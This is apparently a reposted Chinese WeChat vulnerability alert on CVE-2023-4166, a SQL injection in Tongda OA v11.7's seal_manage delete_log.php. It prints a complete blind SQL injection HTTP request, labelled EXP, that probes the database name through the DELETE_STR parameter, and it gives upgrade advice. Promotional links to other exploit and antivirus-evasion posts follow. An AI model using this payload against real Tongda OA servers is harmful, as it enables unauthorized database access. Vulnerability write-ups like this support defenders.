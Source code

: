 #  漏洞速递 | 通达OA_CVE-2023-4166漏洞（附EXP）

[ 渗透Xiao白帽 ](javascript:void\(0\);)

**渗透Xiao白帽** ![]()

微信号 SuPejkj

功能介绍 积硅步以致千里，积怠惰以致深渊！

____

___发表于_

收录于合集

以下文章来源于哪都通安全 ，作者冯宝宝

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM6N0iaaTORibzibtzV6SicYRmA5rhUVChbD1SxBJSA1sEUUAw/0)
**哪都通安全** .

条条大路通罗马，安全攻防哪都通。

![]()

0x01 前言

通达OA中发现一个漏洞，并被列为严重漏洞。该漏洞影响文件general/system/seal_manage/dianju/delete_log.php的未知代码。对参数
DELETE_STR 的操作会导致 sql 注入。

0x02 影响平台

  * 

    
    
    本地测试环境 v11.7  其他版本未知

0x03 漏洞复现

还是辣个熟悉的页面~~  

![]()

EXP：

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1Host: 192.168.232.137:8098User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: PHPSESSID=1u7tsd1cpgp9qvco726smb50h5; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=779f3f46Upgrade-Insecure-Requests: 1  
      
    

本地环境的数据库为TD_OA  

在ASCII码中84代表的是 T  

![]()

![]()

反之如果不是便是这个酱紫  

![]()

0x04 参考来源

  *   * 

    
    
    https://mp.weixin.qq.com/s/37VKi2Az7LX9G9wVYe6POQhttps://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4166

0x05 修复方案

  *   * 

    
    
    该漏洞已向公众披露并可能被使用。升级到版本11.10可以解决这个问题。建议升级受影响的组件。

  

  

![]() **网 安 考 证![]()** 需要考以下各类安全证书的可以联系我，价格优惠、组团更便宜！

CISP、PTE、PTS、DSG、IRE、IRS、NISP、PMP、CCSK、CISSP、ISO27001...  
  
---  
  
![]()

![]()

23hvv红蓝py交流群，共享资源 一起py![]()

 _ **不定期福利赠送**_

群满可以后台加vx备注py 邀请进群![]()

![]()

  

 **【往期推荐】**  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-Shellcode
Loader原理(python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-
分离+混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  

[【超详细 | 钟馗之眼】ZoomEye-
python命令行的使用](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488453&idx=1&sn=5828a0e1a2299d3ee0215f0ed4c30bf1&chksm=ea37ec9fdd406589124c67c45487be39ed1033d88c627092cf07f6d4f14ccdb9079b38dba74d&scene=21#wechat_redirect)  

[【超详细 | 附EXP】Weblogic CVE-2021-2394
RCE漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488922&idx=1&sn=f43e3c243bbbfd2822867a3acaa8b85e&chksm=ea37eac0dd4063d63d98f935c73ce571cbfeb0e7272a6f171a28143bdb3e7134b09ea874969a&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 |
Weblogic未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附PoC】CVE-2021-2109 | Weblogic
Server远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)

[【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server
远程代码执行漏洞](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487906&idx=1&sn=e35998115108336f8b7c6679e16d1d0a&chksm=ea37eef8dd4067ee13470391ded0f1c8e269f01bcdee4273e9f57ca8924797447f72eb2656b2&scene=21#wechat_redirect)

[【CNVD-2021-30167 | 附PoC】用友NC
BeanShell远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487897&idx=1&sn=6ab1eb2c83f164ff65084f8ba015ad60&chksm=ea37eec3dd4067d56adcb89a27478f7dbbb83b5077af14e108eca0c82168ae53ce4d1fbffabf&scene=21#wechat_redirect)  

##
[【奇淫巧技】如何成为一个合格的“FOFA”工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange
远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[  记一次HW实战笔记 |
艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

 **走过路过的大佬们留个关注再走呗![]()**

 **往期文章有彩蛋哦![]()** ****

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

